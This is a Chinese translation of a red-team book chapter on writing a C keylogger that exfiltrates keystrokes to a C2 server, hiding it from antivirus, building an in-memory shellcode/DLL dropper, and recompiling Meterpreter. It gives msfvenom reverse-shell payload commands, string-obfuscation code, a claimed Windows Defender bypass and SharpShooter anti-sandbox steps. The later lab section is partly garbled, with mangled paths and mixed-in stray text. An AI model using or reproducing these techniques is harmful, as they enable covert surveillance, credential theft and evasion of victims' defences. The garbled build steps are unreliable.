# 7 四分卫突袭——规避 `AV` 和 `网络` 检测

为 `Red Team` 活动编写代码

成功 `Red Teamers`（红队成员）和 `Penetration Testers`（渗透测试员）之间的区别之一在于适应和理解不同防护措施的能力。无论是理解底层 `assembly`（汇编）、编写 `shellcode`（代码段）、创建自定义 `C2`（命令与控制）二进制文件，还是修改代码洞穴以隐藏我们的 `malware`（恶意软件），这些都是我们日常工作的一部分。我经常遇到不会编程的 `pentesters`（渗透测试员），虽然编程并非必需，但这绝对会导致他们职业成长的停滞。因此，我想专门 dedicate（ dedicte 译为：致力于/专门针对）一部分内容给那些较少使用低级语言编程的人，以帮助他们入门。

## 基础：构建 `Keylogger`（键盘记录器）

`Keyloggers` 是任何 `pentest`（渗透测试）/ `Red Team` 不可或缺的工具，本节将指导你制作一个通用的 `Keylogger`。有时我们仅仅想要持续监控特定用户或获取额外的凭证。这可能是由于我们无法进行任何 `lateral movement`（横向移动）/ `privilege escalation`（权限提升），或者我们只是想监控用户以便未来的活动。在这些情况下，我们喜欢部署在受害者系统上持续运行并将击键数据发送到外部的 `Keyloggers`。以下示例仅是一个 `POC`（概念验证），本实验的目的是让你理解基础知识并在此基础上构建。所有这些使用 `C` 语言的原因是为了保持二进制文件相对较小，由于低级语言而获得更好的 `OS`（操作系统）控制，并规避 `AV`（防病毒软件）。在前一本著作中，我们用 `Python` 编写了一个 `Keylogger` 并使用 `py2exe` 将其编译为二进制文件，但这些很容易被检测到。让我们通过一个稍微复杂的示例来逐步了解。

### 设置你的环境

这是编写和编译 `C` 以创建 `Windows` 二进制文件和自定义 `Keylogger` 所需的基本设置。

*   虚拟机中的 `Windows` 10

*   安装 `Visual Studio` 以便可以使用命令行编译器，并使用 `Vim` 进行代码编辑

迄今为止，`Windows` API 编程最好的编码资源是 `Microsoft` 自己的 `Development Network`（开发网络）（`MSDN`）网站，地址为：`www.msdn.microsoft.com`。`MSDN` 是一个 invaluable（宝贵的）资源，详细说明了系统调用、类型和 `struct`（结构体）定义，并包含数十个示例。虽然本项目实际上并不需要，但通过阅读由 `Microsoft Press` 出版的 `Windows` Internals（《Windows  internals》）书籍，可以获得对 `Windows` 操作系统的更深入理解。对于 `C` 语言，有一本由 `C` 语言的联合创始人之一合著的好书，名为 `Kernighan` 和 `Ritchie` 编写的《The C Programming Language》。最后，阅读 `Beej` 的《Network` Programming 指南，该书有纸质版和在线版，是 `C` 语言套接字编程的绝佳入门指南。

### 从源代码编译


在这些实验室中，将包含多个代码示例。实验室将通过微软的优化编译器（Optimizing Compiler）来编译代码，该编译器随 Visual Studio Community 附带提供并已内置于 Visual Studio Developer Command Prompt 中。安装完 VS Community 后，请务必在 `Tools -> Get Tools and Features` 下同时安装“通用 Windows 平台开发”和"C++桌面开发”。要编译示例代码，请打开开发者命令提示符（developer command prompt）的一个实例，然后导航到包含源代码的文件夹。最后，运行命令 ``cl sourcefile.c io.c``。这将生成一个与源文件同名的可执行文件。

编译器默认使用 32 位模式，但该代码也可以编译为 64 位。若要编译出 64 位版本，请运行位于 Visual Studio 文件夹中的批处理脚本。打开命令提示符后，导航至 ``C:\Program Files (x86)\Microsoft Visual Studio\2017\Community\VC\Auxiliary\Build``（请注意：此路径可能会因您的 Visual Studio 版本不同而有所变化）。然后，运行命令 ``vcvarsall.bat x86_amd64``。这将配置微软编译器以编译 64 位二进制文件而非 32 位二进制文件。现在，您只需通过运行 ``cl path/to/code.c`` 即可编译代码。

## 示例框架

本项目的目标是创建一个利用 C 语言和低级 Windows 函数来监控键盘输入的键记录器（keylogger）。该键记录器使用了 ``SetWindowsHookEx``和``LowLevelKeyboardProc``这两个函数。``SetWindowsHookEx``允许在本地和全局上下文中设置各种类型的钩子。在这种情况下，将使用参数 ``WH_KEYBOARD_LL``来获取低级键盘事件。

```cpp
HHOOK WINAPI SetWindowsHookEx(
  _In_ int idHook,
  _In_ HOOKPROC lpfn,
  _In_ HINSTANCE hMod,
  _In_ DWORD dwThreadId);
```

该函数接受一个整数作为钩子 ID，一个函数指针，一个模块句柄以及一个线程 ID。前两个值最为重要。钩子 ID（Hook ID）是您要安装的钩子类型的整数值。Windows 在相关功能页面列出了可用的 ID。在我们的案例中，将使用 ID 为 13 或``WH_KEYBOARD_LL``的选项。 ``HOOKPROC``是一个指向回调函数的指针，每当被监控的过程收到数据时就会被调用这意味着每当按下键时，都会触发该 ``HOOKPROC``中的函数处理逻辑来将要写入文件的按键记录进行处理。

“hMod”是指向包含由"lpfn"所指向之功能的 DLL 的句柄。“dwThreadId”将为 0 以将此回调与桌面中的所有线程关联起来。最后，该函数返回一个整数，用于验证钩子是否正确设置；若未成功则退出此过程。

第二部分所需的是回调函数（callback function）。该程序的大部分工作将由该回调函数完成。它负责接收按键输入、将其转换为 ASCII 字符以及执行所有文件操作功能。“LowLevelKeyBoardProc”的原型看起来像这样(http://bit.ly/2HomCYQ): 

```cpp
LRESULT CALLBACK LowLevelKeyboardProc(
  _In_ int nCode,
  _In_ WPARAM wParam,
  _In_ LPARAM lParam);
```

我们回顾一下 ``LowLevelKeyBoardProc``所需要的内容。函数的参数是一个整数，告诉 Windows 如何解释该消息。其中两个参数是：（1）"wParam”，它是消息的标识符；以及（2）“lParam”，它是指向 KBDLLHOOKSTRUCT 结构体的指针。”wParam”的值在对应的功能页面中有说明。“KBDLLHOOKSTRUCT”成员变量的描述详见另一页文档。(此处 ``Lparam``) 。`'Lparam KDdllHookStruct’中的值为‘vkCode’(虚拟键码 Virtual Key Code)(http://bit.ly/2EMAGpw))。这是所按键的编码，而非实际的字母字符，因为字母会根据键盘的语言设置而有所变化。“Vkcode”稍后需要被转换为相应的字母表示；暂时您无需担心向我们的键盘回调函数传递参数的问题（因为它们会在钩子激活时由操作系统自动传入）。

因此，用于挂钩键盘的最初骨架代码看起来如下：https://github.com/cheetz/ceylogger/blob/master/skeleton。

在查看此骨架代码时，需注意其中包含 pragma 编译器注释、消息循环以及回调函数中返回“CallNextHookEx”行这三点内容。“Pragma comment”行是一条编译器指令，用于连接 User32 DLL 库”。该 DLL 包含了大部分后续即将调用的功能调用因此必须被链接；当然也可以通过编译选项直接完成这一操作。接下来消息环（message loop）如果使用了"LowLevelKeyboardProc 函数则必不可少 Microsoft MSDN 文档指出：“此钩子是在安装它的线程上下文中进行调用的。通过向已安装该钩子的线程发送一条消息来执行此调用因此，必须在该安装了钩子的拥有一个消息循环。”[http://bit.ly/2HomCYQ]

接下来返回"callnextHookEx”是因为 MSDN 指出：“调用'CallNextHookEx 函数以链接到下一个钩子过程是可选的但如果未这么做其他已安装钩子程序的应用将无法接收相应的通知可能导致其行为不正确。除非您确实需要阻止这些应用程序看到此通知否则应该始终调用 Call Next Hook Ex。”[http://bit.ly/2H0n68h]

接下来我们继续构建回调函数的功能部分——首先创建一个文件句柄（file handle）。示例代码将创建名为"log.txt”的文件并将其保存到 Windows 临时目录"C:\Windows\Temp”。该文件的配置采用追加模式以便键记录器可以不断地将按键内容写入到此文件中。如果 temp 目录下不存在该文件则会自动创建一个新项目。“Going back to 'KBDLLHOOKstruct'“，这段代码声明了一个 KBDLLHOOKSTRUCT 指针并将其赋值给 lParam 这将允许访问每次按键时'lparam’内部所包含的参数值随后检查"wParam”是否返回了"WM_KEYDOWN 事件以确定该键是否被按下执行此操作是因为钩子会在按键（press）和释放（release）两个阶段均触发。如果代码没有检测'MMKEYDOWN，程序将会重复写入每个两次。“After checking for down press 接下来需要添加一个 switch 语句来检查“lParam 的"vkCode(虚拟键码”以判断是否为特殊键某些特定类型的按键需与其他普通字符区别对待例如返回(Return)、控制(Control)、Shift、空格(Space)以及制表符(Tab)等。在默认情况下代码会将该键对应的 Vkcode 转换为实际字母这种转换可以通过使用 ToAscii"函数来实现 Toascii 会接收 vkCode 扫描码 (Scan Code)")键盘状态数组的指针用于存储字母输出的缓冲区指针以及在参数 uFlags(int 值设置为零")".VkCode 和 Scan code 来自于上面的 Key struct 而键盘状态是一个之前声明过的字节数组用来持有输出结果最后将 "flags 设为 0。

必须检查某些按键是否释放（例如 Shift 键等）这可以通过编写另一个“if 语句来检测'WM_KEYUP 事件随后使用 switch 判断需要处理的特定按键类型最终需要关闭文件并将控制权返回给‘CallNextHookEx”。回调函数如下所示：

*   https://github.com/cheetz/ceylogger/blob/master/callback


此时，键盘记录器已完全具备功能。然而，存在几个问题。首先是运行该程序会弹出一个命令提示符窗口，这使得程序正在运行的状态显而易见，且该窗口无输出内容也显得颇为可疑。另一个问题是，如果键盘记录器将文件保存在运行它的同一台计算机上，其效用不大。

通过用 Windows 特有的 `WinMain` 函数入口点替换标准的 C `Main` 函数入口点，可以相对轻松地解决命令提示符问题。据我理解，其工作原理是因为 `WinMain` 是 Windows 上图形程序的入口点。尽管操作系统期望你处理程序窗口的创建，但我们可以告诉它不要创建任何窗口，因为我们拥有控制权。现在，该程序仅会在后台生成一个进程，而不会创建任何窗口。

程序的网络部分将 straightforward（直截了当）。首先通过声明 `WSAData`（[`bit.ly/2HAiVN7`](http://bit.ly/2HAiVN7)）、启动 Winsock、清除 hints 结构并填充相关参数来初始化 Windows 套接字函数。在我们的示例中，代码将使用 `AF_UNSPEC` 用于 IPV4，使用 `SOC_STREAM` 用于 TCP 连接，并使用 `getaddrinfo` 函数利用上述参数填充 `c2` 结构体。满足所有必要参数后，即可创建套接字。最后，`socket_connect` 函数连接到该套接字。

连接建立后，`socket_sendfile` 函数将承担大部分工作。它使用 Windows `CreateFile` 函数打开日志文件的句柄，然后使用 `GetFileSizeEx` 函数获取文件大小。获取文件大小后，代码将分配相应大小的缓冲区（另加一个字节用于填充），然后将文件内容读取到该缓冲区中。最后，通过套接字发送缓冲区内容。

对于服务器端，可以在 C2 服务器的 3490 端口上启动 socat 监听器（启动 socat 的命令：`socat - TCP4-LISTEN:3490,fork`）。一旦监听器启动且键盘记录器运行，您应该看到受害者主机的所有命令每 10 分钟推送至 C2 服务器。键盘记录器的初始完整版本 1 可在以下位置找到：[`github.com/cheetz/ceylogger/tree/master/version1`](https://github.com/cheetz/ceylogger/tree/master/version1)。在编译 `version_1.c` 之前，请确保将 `getaddrinfo` 修改为您当前的 C2 IP 地址。编译代码的命令：`cl version_1.c io.c`。

最后需要提及的一个函数是 `thread_func`。`thread_func` 调用 `get_time` 函数获取当前分钟数。然后检查该值是否能被 5 整除，因为该工具每 5 分钟发送一次文件。如果能被 5 整除，它将设置套接字并尝试连接到 C2。如果连接成功，它将发送文件并运行清理函数。然后，循环休眠 59 秒。休眠函数之所以必要，是因为这一切都在一个恒定循环中运行，这意味着函数将在几秒内获取时间、设置连接、连接并发送文件。如果没有 59 秒的休眠，该函数可能会在 1 分钟的时间间隔内将文件发送数十次。休眠函数允许循环等待足够长的时间，直到时间变更到下一分钟，因此每 5 分钟仅发送一次文件。

### 混淆

执行混淆的方法有成百上千种。虽然本章无法逐一介绍，但我希望为您提供一些基本的技术和思路，以规避防病毒软件（AV）。

如您可能已经了解，防病毒工具会查找特定的字符串。一种最简单的规避 AV 的方法是创建简单的置换密码（rotation cipher）并移位字符串中的字符。在下方的代码中，有一个基本的解密函数，将所有字符串移动 6 个字符（ROT6）。这会导致字符串乱码，可能不会被 AV 检测到。在程序开始时，代码将调用解密函数，将字符串数组还原为正常格式。解密函数如下所示：

```
int decrypt(const char* string, char result[]) {
    int key = 6;
    int len = strlen(string);
    for (int n = 0; n < len; n++) {
        int symbol = string[n];
        int e_symbol = symbol - key;
        result[n] = e_symbol;
    }
    result[len] = '\0';
    return 0;
}
```

您可以在程序的版本 2 中看到此示例：[`github.com/cheetz/ceylogger/tree/master/version2`](https://github.com/cheetz/ceylogger/tree/master/version2)。

另一种用于逃避防病毒软件的方法是使用函数指针调用 User32.dll 中的函数，而不是直接调用函数。为此，首先编写函数定义，然后使用 Windows `GetProcAddress` 函数查找要调用的函数地址，最后将函数定义指针分配给从 `GetProcAddress` 接收到的地址。关于如何使用函数指针调用 `SetWindowsHookEx` 函数的示例可在以下位置找到：[`github.com/cheetz/ceylogger/blob/master/version3/version_3.c#L197-L241`](https://github.com/cheetz/ceylogger/blob/master/version3/version_3.c#L197-L241) ([`bit.ly/2H0VboE`](http://bit.ly/2H0VboE))。

程序的版本 3 结合了前一个示例中的字符串加密和通过指针调用函数的方法。有趣的是，如果您将编译后的二进制文件提交到 VirusTotal，您将不再在导入部分看到 User32.dll。在下图中，左图是版本 1，右图是使用调用指针的版本 3。

您可以在以下位置找到版本 3 的全部源代码：[`github.com/cheetz/ceylogger/tree/master/version3`](https://github.com/cheetz/ceylogger/tree/master/version3)。

为了确认是否成功规避了 AV，最好的选择是始终针对实时防病毒系统进行测试。在实际活动中，我不建议 ever（永远）使用 VirusTotal，因为您的样本可能会被发送给不同的厂商。然而，它非常适合测试/学习。对于我们的有效载荷（payloads），以下是 VirusTotal 的对比结果：

对于版本 1，32 位，11/66 触发 AV：
* https://www.virustotal.com/#/file/4f7e3e32f50171fa527cd1e53d33cc08ab85e7a945cf0c0fcc978ea62a44a62d/detection
* http://bit.ly/2IXfuQh

对于版本 3，32 位，10/66 触发 AV：
* https://www.virustotal.com/#/file/8032c4fe2a59571daa83b6e2db09ff2eba66fd299633b173b6e372fe762255b7/detection
* http://bit.ly/2IYyM7F

最后，如果我们将版本 3 编译为 64 位有效载荷，我们得到 0/66！：
* https://www.virustotal.com/#/file/e13d0e84fa8320e310537c7fdc4619170bfdb20214baaee13daad90a175c13c0/detection
* http://bit.ly/2JNcBmc

### THP 自定义投放器


**Dropper**是红队工具包的重要组成部分，允许您在无需将植入物留在受害者计算机上的情况下运行它们。保持植入物不在磁盘上可降低其被泄露的风险，使您的工作可以被多次使用。在本章中，我们将涵盖一个由 THP 开发的自定义 **Dropper**，它可以导入仅驻留于内存中的 Shellcode 或 DLL。

在设计 Dropper 及其对应的服务器时，有几点需要注意。Dropper 的目的是成为您军火库中的消耗品（即“用完即弃”），这意味着您需要假设以当前形式使用它会触发后续行动中的检测。

为了使未来的行动更容易，您将希望开发一个标准的服务器，您可以重复使用它。在示例中，您将看到一个基本的网络实现，允许为不同的消息注册新的处理器（handler）。虽然此示例仅包括用于`LOAD_BLOB`消息类型的处理器，但您可以轻松添加新处理器以扩展功能。这使得成为一个良好的基线，因为您拥有了所有标准化的通信。

编写 Dropper（或任何其他期望被快速发现并逆向工程的软件）时的另一个重要步骤是清理您的字符串。调试消息在首次构建软件时非常有用，可以免除您手动步进调试器查看问题原因的需要。然而，如果它们意外保留在最终发布版本中，您将大大方便分析师逆向您的恶意软件的工作。很多时候，防病毒软件会根据独特的字符串或常量值进行签名。在示例中，我使用了 `InfoLog()` 和`ErrorLog()`，预处理器将在发布构建中将其编译掉。使用这些宏（检查 `_DEBUG` 是否已定义）将决定包含相关调用的方式。

THP 自定义投送器代码：https://github.com/cheetz/thpDropper.git

## Shellcode 与 DLLs

在以下示例中，您可以让 Dropper 加载完整 DLL 或 Shellcode。通常与许多公开植入物而言，您能够生成完整的 DLL，它将下载 DLL 并进行反射加载。让您的 Dropper 直接加载 DLL 将为您节省更多的 API 调用，从而更具隐蔽性。一些植入物可能由于它们的头部被修改而无法正确加载。如果您的某个植入物无法正常工作并且包含一种生成 Shellcode 的方法，那么这应该能解决您的问题。这是因为它们的自定义加载程序通常编写用于修复头部并从该 DLL 中加载它。

网上也有大量的 Shellcode 可供使用，像 shell-storm.org 这样的站点保存了为特定目的编写的 Shellcode 存档，其中一些可能对您的行动有所帮助。

## 运行服务器

构建服务器很简单。在您的自定义 THP Kali 镜像上，您需要运行以下命令：

### 首次编译：

* `cd /opt/`
* `sudo apt-get install build-essential libssl-dev cmake git`
* `git clone https://github.com/cheetz/thpDropper.git`
* `cd thpDropper/thpd`
* `mkdir build`
* `cd build`
* `cmake ..`
* `make`

### 对于后续编译，您所需要做的就是：

* `cd /opt/thpd/build`
* `make`

要运行服务器，编译后，您将输入：

* `./thpd [path to shellcode/DLL] [loadtype]`

以下值当前适用于加载类型：

| 0 | Shellcode | 这将向客户端发送原始 Shellcode 字节 |
| 1 | DLL | 这将发送一个正常的 DLL 文件以供反射加载到客户端 |

虽然这些载荷（Shellcode/DLL）可以来自任何类型的 C2 工具（Metasploit/Meterpreter, Cobalt Strike 等），但在示例中我们将使用 Meterpreter 载荷。生成载荷：

### 用于 Shellcode 载荷：

* `msfvenom -a x64 -p windows/x64/meterpreter/reverse_http LHOST=<Your_IP> LPORT=<PORT> EnableStageEncoding=True -f c`
* 注意，您必须获取`msfvenom`的输出，并且只取原始 Shellcode（移除引号、换行符和任何非 Shellcode 内容）。
* 启动服务器：`./thpd ./shellcode.txt 0`

### 用于 DLL 载荷：

* `msfvenom -a x64 -p windows/x64/meterpreter/reverse_http LHOST=<Your_IP> LPORT=<PORT> EnableStageEncoding=True -f dll > msf.dll`
* 启动服务器：`./thpd ./msf.dll 1`

## 客户端

客户端的功能与服务器类似，它会为每种消息类型注册一个处理器。在启动时，它将尝试回连到服务器，如果在 n 次尝试后无法连接或在断开连接时，将重连并发送一条消息请求加载 Blob。服务器将返回一个`BLOB_PACKET`，客户端将识别并通过`head->msg`字段进行分发。所有数据包必须在开始处定义 `HEAD_PACKET` 字段，否则网络处理器将无法识别并将其丢弃。使用`BuildPacketAndSend()`函数将正确设置头数据包，允许另一方对其进行解码。

构建客户端需要 Visual Studio 和 Git。首先克隆 Git 仓库（https://github.com/cheetz/thpDropper.git）到文件夹中，然后在 Visual Studio 中打开 `thpDropper.sln`。确保已为正在投送的代码设置正确的架构，如果不想看到任何调试消息，请将其设置为发布版本构建。完成此操作后，按 F7，Visual Studio 应该会为您生成可执行文件。

## 配置客户端和服务器

大部分客户端的配置均可在 `globals.cpp`文件中访问，您想要更改的三个主要配置设置是主机名、端口和包持续时间（packet duration）。每个配置项旁边都有注释，告诉您它们是什么。虽然您不需要更改包签名，但更改它将修改发送的每个数据包的前 2 个字节，这些字节用于识别它是服务器上的有效连接。如果您想混淆 IP 和端口，可以编写代码在访问时解密它们，并仅在二进制文件中存储加密版本。

在服务器端，在 `main.cpp`文件中，您可以修改服务器监听的端口。此配置在主函数中作为`StartupNetworking()`的唯一参数。如果您决定更改客户端中的包签名，则需要修改服务器以反映这一点。这意味着在`include/lib/networking.h`中，`PACKET_SIGNATURE`值必须匹配客户端中的全局值。

## 添加新处理器

网络代码基础架构设置允许您轻松添加新功能。为此，您需要创建一个回调函数，在客户端上原形为 `void name()`，或在服务器端为 `void name(int conn)`。这些将被注册到您的消息类型的处理器数组中，并且在头数据包经过验证后，它们将被调用。在这些函数中由您负责从接收缓冲区读取您的数据包和数据。您希望将`recv()` 调用到指向数据包结构的指针上，连同该数据包的大小。这将提供有关需要从接收缓冲区拉取多少字节的信息。在此示例中，您将看到我们在使用处理器读取 `BLOB_PACKET` 时，使用了存储在 `packet.payloadLen` 中的值来决定需要进一步读取多少字节。相同的原则可以应用于其他数据类型。如果您想发送一个包含受害者计算机上某个文件路径的字符串，您将在处理器的数据包中包含一个描述该字符串长度的字段，您会在数据包之后发送它。

## 进一步练习


虽然此代码能为您提供坚实的基础，但仍有多种方法供您自行改进。在传输层添加简单的加密层将是一件轻而易举的事。您只需创建自己的 `send`和`recv`包装器，并在调用`send`和`recv`函数之前对其进行解密/加密即可。一种极其简单的方法是使用多字节**XOR 密钥**。虽然这种方法安全性不高，但至少能将您的消息更改得足以避免轻易被识别。另一个练习是扩展`LoadBlobHandler()` 函数以添加新的 `LOAD_TYPE`：如果客户端是以管理员身份运行，则加载已签名的驱动程序。这可以通过使用 winapi 调用`CreateService()`和`StartService()`来实现。然而，请注意加载驱动程序需要它位于磁盘上，这会触发文件系统微型过滤器驱动程序将其拾取。

## 重新编译 Metasploit/Meterpreter 以绕过 AV 和网络检测

我真的很想涵盖这个主题。请记住这将稍显进阶，并且在编译过程中您很可能会遇到一些问题。外界有非常丰富且强大的工具（如 Metasploit/Meterpreter），但每种防病毒和入侵 detection (`NID`) 工具都已为其开发了特征码。我们可以尝试使用 `Shikata Ga Nai`对载荷进行模糊化处理并重定向至 HTTPS 通道，但这只能做到这一步为止。任何形式的模糊处理通常都会有一个 stub 签名可供检测：防病毒软件会在内存中搜索特定位置的特定字符串，而网络则会对经过加密的 HTTPS 连接执行中间人审查。那么我们如何在绕过所有常见保护机制的同时继续使用我们最喜爱的工具呢？让我们以 Metasploit/Meterpreter 为例，看看我们可以如何跨越所有这些障碍。我们的目标是绕开二进制文件上的 AV 签名、内存中的 AV 签名以及网络信号特征码。

为了规避所有这些检测方法，我们需要做一些事情：首先，我们需要修改 Meterpreter 载荷以确保它们在网络和内存中都不会被轻易检测到；其次，我们修改`metsvc`持久化模块以防止其标志防病毒软件；第三，我们用 `Clang`重新编译部分`metsrv`（实际的 Meterpreter 载荷），以防同样触发反病毒特征码；最后，我们将编写自己的 `stage0` 载荷以下载并执行 Meterpreter，从而绕过所有反病毒程序。

### 使用 Clang 编译 metsrv (Meterpreter 网络服务包装器) 并移除对 metsrv/metsvc-server 的引用

*   [`bit.ly/2H2kaUB`](http://bit.ly/2H2kaUB)

###修改载荷以去除类似 Mimikatz 的字符串
* http://bit.ly/2IS9Hvl

### 修改反射式 DLL 注入以去除如 ReflectiveLoader 般的字串
    *   [`bit.ly/2qyWfFK`](http://bit.ly/2qyWfFK)

许多网络产品会在数据通过线路时检测 Meterpreter 的 stage `0` `/1` / `2`加载器。除了模糊化我们的载荷外，我们还可以对实际的壳代码进行模糊化处理。举个例子是遍历所有不同类型的 Ruby 文件并添加随机**nop 滑道**以避免被检测到：
* [`bit.ly/2JKUhdx`](http://bit.ly/2JKUhdx)

### 自定义 Stage0 载荷：

    *   http://bit.ly/2ELYkm8 [http://bit.ly/2ELYkm8]  

# LAB: 

在本实验练习中，我们将对我们的修改版 Metasploit/Meterpreter 代码进行重新编译并确认其能够躲避基本的防病毒检测。开始之前，请回顾来自 Metasploit 的构建环境设置：

*   https://github.com/rapid7/metasploit-payloads/tree/master/c/meterpreter
     *   [`github.com/rapid7/metasploit-payloads/tree/master/c/meterpreter`](https://github.com/rapid7/metasploit-payloads/tree/master/c/meterpreter) 
* https://github.com/rapid7/metasploit-framework/wiki/Setting-Up-a-Metasploit-Development-Environment
     *   [`github.com/rapid7/metasploit-framework/wiki/Setting-Up-a-Metasploit-Development-Environment`](https://github.com/rapid7/metasploit-framework/wiki/Setting-Up-a-Metasploit-Development-Environment)

### Windows 要求:

* Visual Studio 2013 (`VS2013`) - Community 版即可。安装时必须包含`C/C++ `
     *   [Visual Studio 2013](https://visualstudio.microsoft.com/zh-hans/) ([Community edition is fine]. Need C/C++) installed with the install. (Need) 
         **Llama**
* Windows 下安装的 LLVM 32 位（请在安装 VS 之后安装此程序并确保安装了`LLVM `工具链）-在 [`releases.llvm.org/download.html`](http://releases.llvm.org/download.html]下载 LLVM 6 @ http://downloas.llvm.org/dload.html
* Windows 下安装的 GNU Make (http://gnuwin32.sourceforge.net/packages/make.htm) - 确保它在您的路径中，或从其安装位置运行。它已包含在您系统的 path 环境变量中了（如果该程序在系统中安装了的话）。
**LLVM** 

* Git-SCM ([git-scm.com](https://git-scm.com/)

## 如何在 Windows 上构建 Metasploit/Meterpreter: 

首先拉取所有`cyberspacekitten ` 仓库。这些文件已针对您的实验进行了大量修改，但可作为概念验证使用。我们需要先下载框架和所有载荷：
* [git clone](https://github.com/cyberspacekittens/metasploit-framework) https://github.com/cyberspacekittens/metasploit-framework 
    *   `cd metasploit-framework && git submodule init && git submodule update && cd ..`
         **Make sure**  
* clone: https://github.com/cyberspacekittens/metasploit-payloads 
     ```bash
    `cd metasploit-framework && git submodule init && git submodule update && cd ..`
         Makefile: make.exe
    *   虽然已经在这些仓库中进行了修改字符串、编译至 Clang 以及载荷 nop 等的所有更改，但请确保审查 Metasploit 这两款产品之间的差异以确切了解所做的改动。

## 编译 Metasploit/Meterpreter 

我们要做的第一件事是用我们的更新内容重新编译`metsvc `和`metaserv -server 。从 VS2013 的 Visual Studio 2013 命令提示符开始：
*   进入包含我们修改版`metsrv `源码所在的文件夹。

### Compile using make: 

 * `"C:\Program Files (x86)\GnuWin32\bin\make.exe"`
     **Compile** the program. Makefiles are generated by a process that is called compiling with an executable binary file like gcc or clang etc which can be done manually via terminal lines in windows command line tools such as bash/zsh/sh/cygwin/msys/makefile/etcetera

 Move our newly created binaries to our meterpreter folder:
* `copy metsvc.exe ..\..\..\..\data\meterpreter\\`
    ```bash
 
        C:\Program Files (x86)\GnuWin32\bin\make.exe        
     ````   
         Windows 
         \\\\windows\\\\shellcode\\server.dll" "C:\\Users\\administator...etcetera" 
             `copy metsvc-server.exe ..\..\..\...\data\meterpreter\\`
             
### Next, modify our Meterpreter Payloads and compile them using the supplied `.bat` file:

 *   cd metasploit-payloads/c/meterpreter: 
         `make.bat`
             "C:\\Program Files (x86)\\GnuWin32\\bin\make.exe"`  
     **GNU Make** on Linux and macOS.
             
 After everything is compiled, two folders are generated (`x86 `and `X64`). Copy all the compiled DLLs to the meterpreter folder:  

*   [copy metasploit-payloads/c/meterpreter/output//output\\metaservice.dll](https://metasploit.com/) `metasploit-framework/data\meterpreter`
             *   "C:\\Program Files (x86)\\GnuWin32"

That is it for the server. We can now move the entire [metasploit-framework](http://rapit7.github.io/metasploit/payloads/) folder to your Kali System and start an HTTPS reverse handler (`windows/x64/meterpreter/reverse_https`).  

### Creating a Modified Stage 0 Payload: 

我们要做的最后一件事是创建 Stage 0 载荷以让我们的初始可执行文件绕过所有 AV 检测。如果您不清楚什么是 stage 0，那么 Meterpreter 的 stage 0 就是任何利用或加载的第一阶段代码块：它只做一件简单的事情——按照我们期望的方式（例如 `reverse_https`、`reverse_tcp `、`bind_tcp `等等）进行回连或监听，然后接收一个[metsrv.dll](http://metasploit.com/file/metsrv-server.exe?) 文件。然后在内存中加载该文件并执行它。本质上，任何 Stage 0 载荷只是一个增强版的“下载与执行”型载荷。由于这是 Metasplop 的功能方式，许多防病毒解决方案中都针对 Metaslo 特有的行为存在高级签名字段和行为检测机制——即使修改了壳代码并添加了垃圾代码仍会因为启发式判断而被报警。为了克服这一障碍，我们编写自己的 Stage 0 以执行相同功能（下载并在内存中执行）：我们将 Meterpreter 的 `reverse_https`载荷的下载调用镜像化从服务器获取[metsrv.dll](http://metasploit.com/file/metsrv-server.exe?)并将其在内存中反射和执行。

这里提供的具体示例载荷具备一些更高级的功能，目的是为了允许它成为 PIC（位置无关代码）且不使用任何导入函数。该代码是构建于`thealpiste `的代码之上(https:/github.com/thealpiste/C_revers_https_shellcode/) 开发的。 

所提供的示例实现了以下功能：
*   所有代码都在内存中查找 DLL 和用于执行的函数；不使用任何导入语句。这是通过为所使用的每个函数手动定义存根然后在内存中搜索它们来实现的。使用 Wininet 进行实际的 HTTPS 请求回传给配置的 Metasploit 处理程序，接收 metsrv.dll 并执行数据块 Blob：由于 Metaslo 托管这些文件的方式意味着入口点位于缓冲区开头处


# Advanced Bypass Techniques

本功能对于构建并执行嵌入的 Msfvenom 载荷过程是完全相同的。然而，Msfvenom 以非常可预测、可检测的方式将这些内容添加到模板可执行文件中，因此无法配置。正因为如此，大多数杀毒软件（AV）都能始终识别它们。相反，借助一点编程知识，您可以重写这些载荷的功能，因为它们很小，并且可以绕过当前存在的所有检测。该载荷据称能绕过所有杀毒软件，包括 Windows Defender（截至本文撰写时）。

**创建载荷**（完整载荷位于此处：`http://bit.ly/2ELYkm8`）：

*   在 `VS13` 中，打开 `metasploit-payloads\c\x64_defender_bypass\x64_defender_bypass.vcxproj`
*   在 `x64_defender_bypass` 目录下有一个 `settings.h` 文件。打开该文件并修改 `HOST` 和 `PORT` 信息以匹配您的 Meterpreter 处理器信息。
*   确保将构建模式设置为 "Release" 并编译 "x64"
*   保存并构建
*   在 `metasploit-payloads\c\x64_defender_bypass\x64\Release` 目录下将创建一个新二进制文件 `x64_defender_bypass.exe`。在运行 Windows Defender 的受害机器上执行此载荷。当此项目构建完成后，Windows Defender 未检测到该载荷。

您现在拥有一个高度混淆的 Meterpreter 二进制文件和混淆的传输层，可以绕过所有默认保护。这只是一个概念验证，仅供开始使用。一旦本书发布，肯定会有针对其中一些技术的特征签名。您仍可以进一步采取措施以避免检测工具。例如：

*   使用 `clang` 混淆工具链进行构建
*   使用字符串加密库对字符串进行加密
*   更改 Meterpreter 入口点（当前为 `Init`）
*   创建自动化脚本，为所有载荷类型添加 `nops`
*   编辑实际的 Ruby 代码以生成载荷，对每个运行随机化载荷

## SharpShooter

作为一名红队成员，创建能够绕过下一代杀毒软件和沙盒的载荷是一项最耗时的任务。我们一直在寻找创建初始启动器的新方法。有一种名为 `SharpShooter` 的工具，采用了许多反沙盒技术以及 James Forshaw 的 `DotNetToJScript` 来在 Windows 脚本格式中执行 shellcode（`CACTUSTORCH` 工具 - `https://github.com/mdsecactivebreach/CACTUSTORCH`）。

根据 MDSec 网站关于 `SharpShooter` 的介绍："SharpShooter 支持分阶段和无阶段载荷执行。分阶段执行可以通过 HTTP(S)、DNS 或两者进行。当执行分阶段载荷时，它将尝试检索用所选交付技术压缩并 Base64 编码的 C Sharp 源代码文件。C Sharp 源代码将使用 .NET CodeDom 编译器在主机上下载并编译。随后使用反射执行源代码中的所需方法。" [`https://www.mdsec.co.uk/2018/03/payload-generation-using-sharpshooter/`] 

让我们快速过一遍示例：

*   `python SharpShooter.py --interactive`
*   `1` - 用于 .NET v2
*   `Y` - 分阶段载荷
*   `1` - HTA 载荷

以下是可用的反沙盒技术：

*   您可以选择绕过成功执行恶意软件所需的沙盒技术。

    *   `[1]` 密钥到域名
    *   `[2]` 确保已加入域名
    *   `[3]` 检查沙盒特征
    *   `[4]` 检查不良 MAC
    *   `[5]` 检查调试

*   `1` - Web 交付
*   `Y` - 内置 shellcode 模板
*   shellcode 作为字节数组
